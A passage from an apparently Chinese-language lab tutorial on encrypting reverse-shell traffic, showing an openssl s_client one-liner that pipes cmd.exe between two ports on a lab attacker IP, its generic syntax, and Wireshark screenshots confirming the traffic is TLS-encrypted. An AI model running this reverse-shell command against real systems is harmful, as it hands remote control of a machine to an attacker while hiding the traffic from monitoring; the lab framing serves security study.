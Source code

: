 

随后返回客户端输入如下命令, 意思是从`192.168.47.134:4444`获取命令发送给cmd执行, 然后将执行结果返回给`192.168.47.134:6666`

```
openssl s_client -quiet -connect 192.168.47.134:4444 | cmd.exe | openssl s_client -quiet -connect 192.168.47.134:6666
```

> 命令语法: `openssl s_client -quiet -connect [ip]:[port1] | cmd.exe | openssl s_client -quiet -connect [ip]:[port2]`
>

![image-20221105164019604](流量加密/image-20221105164019604.png)	



随后在攻击机接收到反弹的shell

![image-20221105164229692](流量加密/image-20221105164229692.png)	

​	

## 抓包分析	

在攻击机使用wireshark抓包分析, 可发现攻击机和目标主机使用TLS1.2协议进行加密通讯

![image-20221105170359664](流量加密/image-20221105170359664.png)		
